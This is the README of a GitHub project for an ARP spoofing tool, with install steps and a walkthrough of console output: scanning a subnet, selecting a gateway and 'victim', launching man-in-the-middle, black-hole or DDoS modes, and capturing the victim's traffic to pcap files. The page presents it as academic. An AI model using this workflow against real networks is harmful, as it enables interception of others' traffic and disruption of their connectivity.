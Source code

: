 ## LAN Analyzer
![](https://img.shields.io/badge/platform-Linux--64-brightgreen)
![](https://img.shields.io/badge/OS-Ubuntu%2018.04%20LTS-orange)
![](https://img.shields.io/badge/python-2.7-blue)

### Description
A tool for LAN scanning, ARP attacking and packets capturing.  
For academic use only.

### Prerequisite environment setup

Install python related modules by using the following commands:  
1. `sudo apt install python`  
2. `sudo apt install python-pandas`
3. `sudo apt install python-pip`
4. `sudo pip install --upgrade pip enum34`
5. `sudo apt-get update -y`
6. `sudo apt-get install -y scapy`
7. `sudo apt-get install -y python-netifaces`

Download OUI MAC list from the following link:  
[Download MAC list](https://macaddress.io/database-download/csv)
then rename the csv file as `mac_address.csv` and move to the same directory as this program.  
This file will be converted to database in run-time.

### Usage
`sudo python arp_spoofing.py`  
![gif](https://github.com/DuvetDays/ARPSpoofing/blob/master/arp%20spoofing_1.gif?raw=true)  
`Ctrl + C` to stop the program  

### Demonstration
[Demonstration video on Youtube](https://www.youtube.com/watch?v=3Xy-h2KZG-c)

### Step by step explanation
[step1] Select **network interface**  
```
[Info.] Available network interface list:
[1]: lo, MAC:[{'peer': '00:00:00:00:00:00', 'addr': '00:00:00:00:00:00'}]
[2]: ens33, MAC:[{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
```
[step2] Input **IP range** of subnet that you want to scan 
```
[Info.] Network config: [{'broadcast': '192.168.0.255', 'netmask': '255.255.255.0', 'addr': '192.168.0.93'}]
[Info.] MAC info: [{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
[Enter] Please input the IP range you want to scan (e.g., 192.168.0.0/24):
```
[step3] Select **gateway** and **victim** in host list
```
[Info.] Host list:
  No.  |       IP        |         MAC         |                 Company                  | Country
[  1  ]:   192.168.0.1   -  84:0B:7C:xx:xx:xx  -             Hitron Tech Inc              -    TW
[  2  ]:  192.168.0.20   -  44:CB:8B:xx:xx:xx  -                LG innotek                -    KR
[  3  ]:  192.168.0.32   -  C8:69:CD:xx:xx:xx  -                Apple, Inc                -    US
[  4  ]:  192.168.0.43   -  34:13:E8:xx:xx:xx  -                Intel Corp                -    US
[  5  ]:  192.168.0.46   -  CC:F4:11:xx:xx:xx  -               Google, Inc                -    US
[  6  ]:  192.168.0.60   -  D4:C8:B0:xx:xx:xx  -   Prime Electronics & Satellitics Inc    -    US
[  7  ]:  192.168.0.106  -  4C:56:9D:xx:xx:xx  -                Apple, Inc                -    US

[Info.] Scan completed.
[Info.] Scan duration: 0:00:39.118150 sec.
[Info.] Device number in the subnet: 7
```
[step4] Select **attacking mode**  
```
[Info.] Please select an attacking mode:
[1] Man in the middle(MITM)
[2] Black Hole
[3] DDoS
[Enter] Function:
```
[step5] Select **sniffing mode** (if in MITM mode)  
```
[Info.] Please select the sniffing mode you want:
[1] All packets in the specific network interface
[2] Only packets related to the victim
[Enter] Sniffing mode:
```
[step6] Start to attack victim and record packets into .pacp file in the same directory
(p.s. you can use **wireshark** to open and trace .pcap file)
```
BlackHole_traffic_log.pcap  MITM_traffic_log.pcap
```
[step7] `Ctrl + C` to stop running program and restore the LAN automatically
```
[Exception] <type 'exceptions.KeyboardInterrupt'> 
[Info.] Start to recover the LAN.
[Info.] Please wait for a while.
[Info.] Sending real ARP replies to gateway...
........
Sent 8 packets.
[Info.] Sending real ARP replies to victim...
........
Sent 8 packets.
[Info.] The LAN has been recovered.
[Info.] Man in the middle(MITM) attack is over.
[Info.] Program is shutting down.
```
